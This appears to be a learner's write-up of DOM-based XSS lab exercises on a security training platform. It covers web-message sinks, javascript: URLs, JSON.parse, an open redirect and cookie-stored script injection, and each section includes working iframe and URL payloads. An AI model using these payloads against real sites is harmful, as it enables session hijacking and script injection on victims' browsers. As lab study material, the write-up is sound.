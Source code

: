 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```

## DOM XSS using web messages and a javascript URL
The page contains a sink in the form of a message event listener:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>              
```
Stage an exploit on a page that the user visits.
The iframe loads the target site and calls contextWindow.postMessage to trigger the event listener.
The message includes javascript for any (*) target origin
```
<iframe src="https://0a27003803718cf18050940e007f00d6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and *JSON.parse*
Similar vulnerability except the sink now calls JSON.parse(e.data) and returns if the validation fails.
The exploit payload delivers a JSON object where the url calls malicious javascript. 
```
<iframe src=https://0a55002603bafe7d81a09d2000d50006.web-security-academy.net/ onload='this.contentWindow.postMessage(JSON.stringify({type:"load-channel",url:"javascript:print()"}),"*")'>
```

## DOM XSS using redirect url 
The blog post page contains a "Back to Blog" button which redirects to the homepage. 
The button includes an anchor which uses regex to get the url, allowing an attacker to insert an arbitrary url as the query parameter.

```
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : &quot;/&quot;">Back to Blog</a>
```

Exploit is to add the url query parameter to the URL to add it to the location object. 
The regex will process it as the redirect url.
```
https://0ac700710410da51818e07ba00f3006b.web-security-academy.net/post?postId=10&url=https://exploit-0ac30026047cda8a81bd061a014900b6.exploit-server.net/
```

Mitigation: use strict validation against a whitelist of URLs

## DOM XSS with cookie manipulation
The page uses a cookie called lastViewedProduct whose value is the last product url visited.
We can stage an exploit where we initially navigatre to a product page and append some malicious javascript to the url.
This URL is saved in the cookie. Then when we call the onload and are redirected to the home page, the cookie loads the javascript.

```
<iframe src="https://0a56007f0348ed7b801b8f5b004d002f.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a56007f0348ed7b801b8f5b004d002f.web-security-academy.net';window.x=1;">
```